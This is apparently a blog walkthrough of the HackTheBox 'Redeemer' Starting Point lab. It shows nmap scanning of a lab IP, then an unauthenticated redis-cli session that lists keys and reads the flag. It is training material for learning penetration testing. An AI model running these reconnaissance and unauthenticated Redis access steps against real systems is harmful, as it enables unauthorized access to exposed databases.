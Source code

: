 ```yaml
---
title: "HackTheBox - Redeemer"
date: 2023-12-25 07:52:00 +0700
categories: [HackTheBox, Starting Point]
tags: [very easy, redis, databases]
image:
    path: /assets/img/hackthebox/starting_points/Redeemer.png
    alt: Redeemer - HackTheBox
---
```


[**Redeemer**](https://app.hackthebox.com/starting-point) is one of the Starting Points from [**HackTheBox**](https://app.hackthebox.com/), where in CTF Redeemer we will learn about **Redis (REmote DIctionary Server)**.

## Introduction

- Connect **Redeemer** using **Pwnbox** or **OpenVPN**.
- Spawn machine.

## Enumeration

To check the target connection and port, we can use **Ping** and **Nmap**.

### Ping

After spawn machine, we can start with ping Target IP.

```bash
❯ ping 10.129.150.140

PING 10.129.150.140 (10.129.150.140) 56(84) bytes of data.
64 bytes from 10.129.150.140: icmp_seq=1 ttl=63 time=234 ms
64 bytes from 10.129.150.140: icmp_seq=2 ttl=63 time=275 ms
64 bytes from 10.129.150.140: icmp_seq=3 ttl=63 time=296 ms
64 bytes from 10.129.150.140: icmp_seq=4 ttl=63 time=319 ms

--- 10.129.150.140 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 234.354/280.959/318.905/31.135 ms
```

### Nmap

Scan ports using `nmap`, `-sV` to display port version info, `-T4` to speed up scanning (the higher the faster [0-5]), `-p-` to scan all ports without exception, and `-Pn` to treat all hosts as online.

```bash
❯ nmap -sV -T4 -p- -Pn 10.129.150.140

Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-25 08:23 WIB
Warning: 10.129.150.140 giving up on port because retransmission cap hit (6).
Nmap scan report for JSN.JaringanKU (10.129.150.140)
Host is up (0.21s latency).
Not shown: 64934 closed tcp ports (conn-refused), 600 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1458.17 seconds
```

You can see, the open port is 6379/tcp which is a Redis service. We can connect to the Redis service using `redis-cli`. If you don't have it, please download it first.

## Foothold

It's time to connect to the Redis service with `redis-cli`. If you don't know the command, use `--help` to display help. Use `-h` to connect to the destination host.

### Redis

To display all databases, we can use the command `keys *`, and to display the contents of the database use `get <key>`.

```bash
❯ redis-cli -h 10.129.150.140

10.129.150.140:6379> keys *
1) "stor"
2) "numb"
3) "flag"
4) "temp"

10.129.150.140:6379> get stor
"e80d635f95686148284526e1980740f8"

10.129.150.140:6379> get numb
"bb2c8a7506ee45cc981eb88bb81dddab"

10.129.150.140:6379> get temp
"1c98492cd337252698d0c5f631dfb7ae"

10.129.150.140:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
```